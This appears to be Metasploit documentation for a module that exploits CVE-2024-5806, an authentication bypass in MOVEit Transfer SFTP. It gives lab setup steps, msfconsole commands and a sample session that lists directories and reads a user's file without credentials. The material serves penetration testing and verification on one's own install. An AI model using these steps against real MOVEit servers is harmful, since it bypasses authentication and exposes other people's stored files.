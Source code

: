 ## Vulnerable Application
This module exploits CVE-2024-5806, an authentication bypass vulnerability in the MOVEit Transfer SFTP service. The
following version are affected:

* MOVEit Transfer 2023.0.x (Fixed in 2023.0.11)
* MOVEit Transfer 2023.1.x (Fixed in 2023.1.6)
* MOVEit Transfer 2024.0.x (Fixed in 2024.0.2)

The module can establish an authenticated SFTP session for a MOVEit Transfer user. The module allows for both listing
the contents of a directory, and the reading of an arbitrary file.

Read our AttackerKB [Rapid7 Analysis](https://attackerkb.com/topics/44EZLG2xgL/cve-2024-5806/rapid7-analysis)
for a full technical description of both the vulnerability and exploitation.

## Testing
1. Installation requires a valid trial license that can be obtained by going here:
   https://www.ipswitch.com/forms/free-trials/moveit-transfer
2. Ensure that your computer has internet access for the license to activate and double-click the installer.
3. Follow installation instructions for an evaluation installation.
4. After the installation completes, follow the instructions to create an sysadmin user.
5. Log in as the sysadmin and create a new Organization (e.g. `TestOrg`).
6. In the `Home` section, click the "Act as administrator in the TestOrg organization" button.
7. In the `Users` section, create a new normal user (e.g. `testuser1`) in the new Organization.
8. In the `Folders` section, navigate to the `testuser1` Home folder and create some files and folders.
9. The SFTP service will be running by default. No further configuration is required.

## Verification Steps

1. Start msfconsole
2. `use auxiliary/gather/progress_moveit_sftp_fileread_cve_2024_5806`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set STORE_LOOT false`
5. `set TARGETUSER <TARGET_USERNAME>` (Must be a valid username on the target server, for example `testuser1`)
6. `set TARGETFILE /`
7. `check`
8. `run`

## Options

### STORE_LOOT
Whether the read file's contents should be stored as loot in the Metasploit database. If set to false, the files
content will be displayed in the console. (default: true).

### TARGETUSER
A valid username to authenticate as. (default: nil).

### TARGETFILE
The full path of a target file or directory to read. If a directory path is specified, the output will be the
directories contents. If a file path is specified, the output will be the files contents. In order to learn
what files you can read, you can first read the root directories (/) contents. (default: /).

## Scenarios

### Default

```
msf auxiliary(gather/progress_moveit_sftp_fileread_cve_2024_5806) > set RHOST 169.254.180.121
RHOST => 169.254.180.121
msf auxiliary(gather/progress_moveit_sftp_fileread_cve_2024_5806) > set STORE_LOOT false
STORE_LOOT => false
msf auxiliary(gather/progress_moveit_sftp_fileread_cve_2024_5806) > set TARGETUSER testuser1
TARGETUSER => testuser1
msf auxiliary(gather/progress_moveit_sftp_fileread_cve_2024_5806) > show options

Module options (auxiliary/gather/progress_moveit_sftp_fileread_cve_2024_5806):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   RHOSTS      169.254.180.121  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT       22               yes       The target port
   STORE_LOOT  false            no        Store the target file as loot
   TARGETFILE  /                yes       The full path of a target file or directory to read.
   TARGETUSER  testuser1        yes       A valid username to authenticate as.


View the full module info with the info, or info -d command.

msf auxiliary(gather/progress_moveit_sftp_fileread_cve_2024_5806) > run
[*] Running module against 169.254.180.121

[*] Authenticating as: testuser1@169.254.180.121:22
[*] Listing directory: /
dr-xr-xr-x 1 0 0 0 Jun 23 16:19 /Home/
dr-xr-xr-x 1 0 0 0 Jun 18 22:50 /Home/testuser1/
dr-xr-xr-x 1 0 0 0 Jun 18 22:50 /Home/testuser1/TestFolder1/
-rw-rw-rw- 1 0 0 8 Jun 18 22:50 /Home/testuser1/test.txt
[*] Auxiliary module execution completed
msf auxiliary(gather/progress_moveit_sftp_fileread_cve_2024_5806) > run TARGETFILE=/Home/testuser1/test.txt
[*] Running module against 169.254.180.121

[*] Authenticating as: testuser1@169.254.180.121:22
[*] Downloading file: /Home/testuser1/test.txt
secrets!
[*] Auxiliary module execution completed
msf auxiliary(gather/progress_moveit_sftp_fileread_cve_2024_5806) > 
```
